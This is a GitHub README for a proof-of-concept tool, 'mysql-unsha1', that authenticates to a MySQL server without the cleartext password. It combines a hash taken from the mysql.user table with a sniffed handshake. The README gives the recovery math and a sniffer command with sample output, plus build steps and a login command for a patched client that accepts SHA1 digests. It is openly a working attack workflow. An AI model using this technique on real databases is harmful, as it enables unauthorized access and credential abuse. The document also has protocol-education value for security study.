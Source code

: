 mysql-unsha1
============

Authenticate against a MySQL server without knowing the cleartext password.

Abstract
--------

This PoC shows how it is possible to authenticate against a MySQL server under
certain circumstances without knowing the cleartext password when the [Secure
Password Authentication] authentication plugin (aka `mysql_native_password`) is
used.

Preconditions are:

- to obtain a read-only access to the `mysql.user` table in the target database
  in order to fetch the hashed password for a given user;

- to be able to sniff a successful authentication handshake performed by the
  aforementioned user (i.e., [authentication via SSL] would nullify this
  attempt).

**Note:** This is not a bug nor a vulnerability in MySQL (this is hardly an
*exploit* actually), it is just a direct consequence of how the authentication
protocol works. If an attacker is able to satisfy the above points then the
whole system is probably already compromised. Yet this exploit may offer an
alternative approach to obtain a proper authenticated access to a MySQL server.

MySQL server passwords
----------------------

By default, passwords are stored in the `mysql.user` table and are hashed using
the `PASSWORD` function which is just a two-stage SHA1 digest:

```
mysql> SELECT DISTINCT password FROM mysql.user WHERE user = "root";
*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19

mysql> SELECT PASSWORD('password');
*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19

mysql> SELECT SHA1(UNHEX(SHA1('password')));
2470c0c06dee42fd1618bb99005adca2ec9d1e19
```

The handshake
-------------

After the TCP connection phase, initiated by the client, the MySQL
authentication [handshake] continues as follows (simplified):

1. the server sends a `Server Greeting` packet containing a *salt* (`s`);

2. the client replies with a `Login Request` packet containing the session
   password (`x`), computed as follows:

        x := SHA1(password) XOR SHA1(s + SHA1(SHA1(password)))

    where `password` is the cleartext password as provided by the user and `+`
    is a mere string concatenation operator;

3. the server can verify the *challenge* and authenticate the client if:

        SHA1(x XOR SHA1(s + SHA1(SHA1(password)))) = SHA1(SHA1(password))

The exploit
-----------

With enough information an attacker is able to obtain `SHA1(password)` and
therefore to solve the server challenge without the knowledge of the cleartext
password.

Let:

- `h` be the hashed password obtained from the `mysql.user` table (i.e.,
  `SHA1(SHA1(password))`);

- `s` and `x` be the salt and the session password respectively obtained from
   the sniffed handshake.

The first-stage SHA1 can be obtained as follows:

    SHA1(password) = x XOR SHA1(s + h)

Tools
-----

To ease the reproducibility of the exploit, this PoC provides two tools:

- a simple sniffer to extract and check the handshake information either live or
  offline from a PCAP file;

- a patch for MySQL client which allows to treat the prompted passwords as SHA1
  digests instead of cleartexts.

### The sniffer

To build `mysql-unsha1-sniff` just run `make` (or `make static` to produce a
statically linked executable). The Makefile will look for the `uthash.h` file in
this directory and will download it if not found.

Run `mysql-unsha1-sniff` without arguments to display the usage message.

In accordance with the previous example:

    sudo ./mysql-unsha1-sniff -i lo 127.0.0.1 3306 2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19:root

Once a successful authentication handshake is captured the output will be like:

    [+] Input:
    [+] - username ........................ 'root'
    [+] - salt ............................ 3274756c42415d3429717e482a3776704d706b49
    [+] - client session password ......... 6d45a453b989ad0ff0c84daf623e9870f129c329
    [+] - SHA1(SHA1(password)) ............ 2470c0c06dee42fd1618bb99005adca2ec9d1e19
    [+] Output:
    [+] - SHA1(password) .................. 5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8
    [+] Check:
    [+] - computed SHA1(SHA1(password)) ... 2470c0c06dee42fd1618bb99005adca2ec9d1e19
    [+] - authentication status ........... OK

If no account information are provided, the tool will only display the salt and
the session password.

### The patched MySQL client

Building the MySQL client may take some time and requires a certain amount of
free disk space:

1. download and extract the MySQL source code:

        wget https://github.com/mysql/mysql-server/archive/mysql-5.7.17.tar.gz
        tar xf mysql-5.7.17.tar.gz
        cd mysql-server-mysql-5.7.17

2. apply the patch:

        patch -p1 </path/to/mysql-server-unsha1.patch

3. build (without server) with:

        mkdir build
        cd build
        cmake -DDOWNLOAD_BOOST=1 -DWITH_BOOST=boost -DWITHOUT_SERVER:BOOL=ON ..
        make -j$(nproc)

4. the client executable will be created at `client/mysql`, optionally install
   it globally and delete the whole source code to save some space:

        sudo cp client/mysql /usr/local/bin/mysql-unsha1
        cd ../..
        rm -fr mysql-server-mysql-5.7.17

Use `mysql-unsha1` as the original MySQL client, just remember that the
`--password[=password], -p[password]` option now requires a 40-digit hexadecimal
SHA1 string.

In accordance with the previous example:

    mysql-unsha1 -h 127.0.0.1 -P 3306 -u root --password=5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8

Where:

```
mysql> SELECT SHA1(UNHEX('5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8'));
2470c0c06dee42fd1618bb99005adca2ec9d1e19
```

and `2470c0c06dee42fd1618bb99005adca2ec9d1e19` is the hashed password stored in
the `mysql.user` table.

[Secure Password Authentication]: https://dev.mysql.com/doc/internals/en/secure-password-authentication.html
[authentication via SSL]: https://dev.mysql.com/doc/internals/en/ssl.html
[handshake]: https://dev.mysql.com/doc/internals/en/plain-handshake.html
